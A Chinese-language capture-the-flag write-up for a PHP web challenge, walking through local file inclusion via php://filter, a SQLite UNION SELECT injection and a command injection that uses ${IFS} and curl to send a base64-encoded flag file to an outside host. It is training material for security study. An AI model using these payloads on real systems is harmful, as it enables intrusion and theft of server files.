 # Web3
` 這題Writeup不寫，我會對不起我自己 `

## PHP LFI 
先看參數中可以發現有一個module，用 ./modules/api 和 ../html/modules/api 發現都可以
=> 想到有LFI
利用LFI將所有網頁拉下來，建立網站架構
(經典 php://filter/convert.base64-encode/resource=)
=> 發現config.php => 統神搬火鍋 ...?

## SQLi
後來花了很多時間在SQLi上，構建id的payload
"""sql
-1 UNION SELECT 'name','tbl_name','type' from sqlite_master;
"""
這裡要注意一個我踩過的坑，就是前面只有選三個column，你也要讓union後面也只有select三個column
經過整個Database的探勘，發現根本沒flag，所以放棄==

## CMDi
讓SQLi跟CMDi結合，構建CMDi的payload
"""sql
-1 UNION SELECT 'Customer',"'${IFS};curl${IFS}x.sivir.pw?$(cat${IFS}/flag_81c015863174cd0c14034cc60767c7f5${IFS}|base64);'",'5900' from sqlite_master;
"""
後來在網路上查到union select好像可以自己搞個Value出來，所以就能夠建CMDi
"""sql
-1 UNION SELECT 'Value1','Value2','Value3' from sqlite_master;
"""
最後一直搞不定IFS，所以跑去寫Colors了
但後來在最後10分鐘的時候，我再回來看這一題，構建了payload
原本要用nc跟T22Server連接，結果發現好像不太行
就改成在裡面打指令，先ls找一下flag結果找不到 :rage:
最後去翻 / 才有，就找到flag了

> 這題真的很機車 = = 

Flag: `AIS3{o1d_skew1_w3b_tr1cks_co11ect10n_:D}`
